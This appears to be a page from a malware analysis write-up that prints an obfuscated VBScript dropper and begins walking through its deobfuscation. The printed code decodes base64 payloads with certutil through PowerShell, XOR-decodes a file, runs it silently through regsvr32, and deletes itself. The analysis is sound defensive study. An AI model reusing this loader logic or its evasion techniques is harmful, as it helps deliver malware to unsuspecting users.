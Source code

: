 ``` 

	n4ECXs = vawrG3u
	pylR8I = kzkdt & auHnoGM
	lNiqUnR56 = kzkdt & ev1uqrc
	hMNAklJmh = kzkdt & o6Nmd7
	lQ2oc8w = kzkdt & brKT0Kw


	Set iajdFe3 = quOblJ.CreateTextFile(pylR8I, True)
	iajdFe3.Write(hWH9A7w1)
	iajdFe3.Close()


	mQiOw0.Run "pow"&"ersh"&"ell cert"&"util -decode " & pylR8I & " " & n4ECXs, 0, True
	mQiOw0.Run "cm"&"d /c de"&"l /q /f " & pylR8I, 0, True
	mQiOw0.Run "c"&"md /c st"&"art " & n4ECXs, 0, True


	Set aFoZLFM = quOblJ.CreateTextFile(hMNAklJmh, True)
	aFoZLFM.Write(jlv6GMwMm)
	aFoZLFM.Close()


	Set nMJNsm = quOblJ.CreateTextFile(lQ2oc8w, True)
	nMJNsm.Write("c"&"m"&"d /c"&" po"&"w"&"er"&"s"&"he"&"ll $b6"&"4t"&"ex"&"t "&"= [S"&"y"&"s"&"te"&"m.I"&"O.Fi"&"le]::Rea"&"dAl"&"lTe"&"xt(\""" & hMNAklJmh & "\""); $by"&"tes ="&" [Sys"&"tem."&"Co"&"nv"&"ert]::Fr"&"omBa"&"se"&"64"&"St"&"ri"&"ng($b64"&"te"&"xt);f"&"or($i"&"=0; "&"$i "&"-lt $"&"by"&"tes.co"&"unt ; $i"&"++){$by"&"tes"&"[$"&"i] "&"= $by"&"te"&"s["&"$i] -bx"&"or \""" & v8Fh7k & "\"";}; [Sy"&"st"&"em.I"&"O.Fi"&"le]::W"&"ri"&"teA"&"ll"&"By"&"tes(\""" & lNiqUnR56 & "\"", $by"&"tes) & reg""sv""r32 /s /i:13"&"579A"&"SDFG " & lNiqUnR56 & "")
	nMJNsm.Close()


	mQiOw0.Run "cm"&"d /"&"c "&lQ2oc8w, 0, True
	selfDel
	 asdfasdf= "again very large base 64 encoded thing"

End Sub
main
```
On opening the file the first thing we see is 3 big base64 encoded string. I haven't mentioned them here as it will just eat up space in the editor. We also see some basic string obfuscation. The script first calls the main function. We will try and analyze the scripts in small parts and perform deobfuscation wherever possible.
#### Deobfuscation
```
On Error Resume Next

Set mQiOw0 = WScript.CreateObject("WSc"&"ri"&"pt.She"&"ll")
Set quOblJ = CreateObject("Scr"&"ipting.File"&"Syst"&"emOb"&"ject")

v8Fh7k = "0x8d"
Sub selfDel
	quOblJ.DeleteFile(WScript.ScriptFullName)
End Sub
```
Firstly the script is setting 3 global variables, we will try and rename each one of them according to their working. We see that the string is divided using the "&" operator. Actually this not obfuscation but a clever way of writing the commands. 
**&** in VB Script is used to concatenate string. So basically here it's being used to concatenate parts of string together to form a bigger string.
-  **mQiOw0** is used to create a WScript Shell object which interacts with the Windows shell 
- **quOblJ** is used to create a FileSystem object used to work with directories and files.